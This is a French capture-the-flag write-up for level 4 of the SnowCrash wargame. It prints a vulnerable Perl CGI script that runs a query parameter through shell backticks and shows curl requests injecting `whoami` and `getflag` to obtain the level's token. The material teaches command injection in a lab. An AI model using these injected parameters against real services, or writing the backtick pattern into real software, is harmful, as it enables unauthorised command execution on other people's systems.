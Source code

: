 # Level04

## level04.pl

```zsh
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ cat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ce script est un script CGI (Common Gateway Interface) écrit en Perl. Il s'exécute en dehors d'une machine distante comme un serveur Web. Ce script s'exécute via un navigateur Web, prend les paramètres de requête GET ou POST et appelle la fonction x().

La fonction x() stocke la valeur passée en paramètre dans la variable $y et imprime la variable $y via la commande echo. Où 2>&1 redirige la sortie d'erreur standard vers la sortie standard.

Ainsi, le script level04.pl génère les paramètres transmis par l'utilisateur et vous pouvez transmettre des commandes shell arbitraires aux paramètres. Cela peut conduire à des vulnérabilités d'injection de commandes.

## 
Paramètres d'envoi

```zsh
curl localhost:4747/?x=<parameter>
```

```zsh
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`whoami\`"
flag04
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password: 
level05@SnowCrash:~$ 
```
